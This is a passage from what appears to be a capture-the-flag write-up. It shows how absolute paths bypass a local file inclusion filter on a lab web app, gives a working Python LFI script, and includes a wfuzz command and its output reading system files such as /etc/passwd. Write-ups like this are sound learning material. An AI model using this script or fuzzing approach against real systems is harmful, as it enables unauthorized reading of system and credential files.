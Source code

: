 Reading though, it appears to have some prevention for basic LFI.
However, after some testing, it appears we can use the absolute path instead of a relative path to find files near the root of the file system.
```python
import os 
os.path.isabs("/etc/passwd")
```
using this knowledge, we can compose a payload which avoids the 1st and 2nd condition checks.
After some scripting and a little work, we have a basic LFI tool.

```python
#!/usr/bin/env python3

import requests
import sys


def lfi(file):
    url = "http://beta.only4you.htb/download"

    payload = {
        "image": file
    }

    r = requests.post(url, data=payload)
    return r.text


if __name__ == "__main__":
    file = sys.argv[1]
    print(lfi(file))
```

This works and we have a working LFI!

### LFI

Now that we have LFI, its time to find out information about the system.
Time for fuzzing!

I use a simple wordlist to find some of the useful files.

`wfuzz -z file,file_inclusion_linux.txt -d "image=/FUZZ" --hc 302 "http://beta
.only4you.htb/download"`

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://beta.only4you.htb/download
Total requests: 1226

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                       
=====================================================================

000000003:   200        280 L    969 W      9733 Ch     "/boot/grub/grub.cfg"                         
000000005:   200        88 L     467 W      3028 Ch     "/etc/adduser.conf"                           
000000065:   200        20 L     68 W       778 Ch      "/etc/dhcp/dhclient.conf"                     
000000062:   200        20 L     99 W       604 Ch      "/etc/deluser.conf"                           
```